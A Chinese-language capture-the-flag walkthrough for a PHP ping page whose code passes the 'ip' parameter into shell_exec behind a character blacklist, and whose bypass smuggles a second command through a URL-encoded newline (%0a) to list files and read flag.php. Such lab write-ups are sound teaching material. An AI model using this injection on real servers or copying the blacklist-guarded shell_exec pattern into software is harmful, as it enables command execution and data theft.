




## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境



2.我们可以直接看到php主要的逻辑代码：

```php
<?php
if(isset($_REQUEST[ 'ip' ])) {
    $target = trim($_REQUEST[ 'ip' ]);
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '|' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );
    $cmd = shell_exec( 'ping  -c 4 ' . $target );
        echo $target;
    echo  "<pre>{$cmd}</pre>";
}
show_source(__FILE__);
?>
```

3.我们可以看到题目中主要获取用户输入ip参数然后进行ping相应ip操作



4.我们可以看到题目中使用黑名单过滤了很多的管道符，但是我们任然可以用`%0a`进行绕过。
构造payload：

```php
http://IP:PORT/challenge9.php?ip=127.0.0.1%0als
```



4.获取flag，构造payload：

```php
http://IP:PORT/challenge9.php?ip=127.0.0.1%0acat flag.php
```
右键查看网页源代码，得到flag



